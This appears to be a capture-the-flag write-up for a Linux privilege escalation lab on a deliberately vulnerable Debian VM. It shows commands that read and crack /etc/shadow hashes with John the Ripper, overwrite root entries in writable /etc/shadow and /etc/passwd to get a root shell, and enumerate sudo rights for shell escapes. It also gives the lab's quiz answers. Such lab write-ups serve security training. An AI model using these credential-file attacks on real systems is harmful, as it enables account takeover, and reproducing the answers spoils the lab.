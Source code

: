 # Deploy the Vulnerable Debian Vm
Deploy the machine and login to the "user" account using SSH.
`ssh user@<ip_address>`
running the ssh normally will get an error. Because OpenSSH have deprecated ssh-rsa. add `-oHostKeyAlgorithms=+ssh-rsa`
`ssh user@<ip_address> `-oHostKeyAlgorithms=+ssh-rsa``
## no answer needed

## Run the "id" command. What is the result?
```
user@debian:~$ id
uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev)
```
# Weak File Permissions - Readable /etc/shadow
```
cat /etc/shadow
root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::
```
copy the hash password of root into a file
`$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0`

use john the ripper to crack the password
```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Press 'q' or Ctrl-C to abort, almost any other key for status
password123      (?)     
1g 0:00:00:04 DONE (2024-08-15 06:14) 0.2450g/s 345.0p/s 345.0c/s 345.0C/s teacher..tagged
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

## What is the root user's password hash?
`$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0`

## What hashing algorithm was used to produce the root user's password hash?
sha512crypt

## What is the root user's password?
password123

# Weak File Permissions - Writeable /etc/shadow
```
user@debian:~$ mkpasswd -m sha-512 mypassword
$6$E5kvwX4w8pYzgJ$yAKFmW8cnbE59lC10b2hrrbOP2TuW6QBYdRxG0lcVTShlAVSFscUCNsYteaLVKvMDQfMHg0EofLjwh11EuA6r.
user@debian:~$ nano /etc/shadow
user@debian:~$ nano /etc/shadow
user@debian:~$ cat /etc/shadow | grep root
root:$6$E5kvwX4w8pYzgJ$yAKFmW8cnbE59lC10b2hrrbOP2TuW6QBYdRxG0lcVTShlAVSFscUCNsYteaLVKvMDQfMHg0EofLjwh11EuA6r.:17298:0:99999:7:::
```
## no answers needed

# Weak File Permissions - Writable /etc/passwd

```
user@debian:~$ ls -l /etc/passwd
-rw-r--rw- 1 root root 1009 Aug 25  2019 /etc/passwd
user@debian:~$ openssl passwd mypassword
Warning: truncating password to 8 characters
dPrN9TvixrQtE
user@debian:~$ nano /etc/passwd
```
`root:dPrN9TvixrQtE:0:0:root:/root:/bin/bash`
```
user@debian:~$ su root
Password: 
root@debian:/home/user# id
uid=0(root) gid=0(root) groups=0(root)
```
## Run the "id" command as the newroot user. What is the result?
uid=0(root) gid=0(root) groups=0(root)

# Sudo - Shell Escape Sequences
## How many programs is "user" allowed to run via sudo?
run the command in user not in the root shell
```
user@debian:~$ sudo -l
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH

User user may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2
    (root) NOPASSWD: /bin/more
```
11

## One program on the list doesn't have a shell escape sequence on GTFOBins. Which is it?
look up the list of programs
apache2

## Consider how you might use this program with sudo to gain root privileges without a shell escape sequence.
try some commands from those program to gain root shell
no answer needed

# Cron Jobs - PATH Environment Variable
## What is the value of the PATH variable in /etc/crontab?
```
cat /etc/crontab
/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
```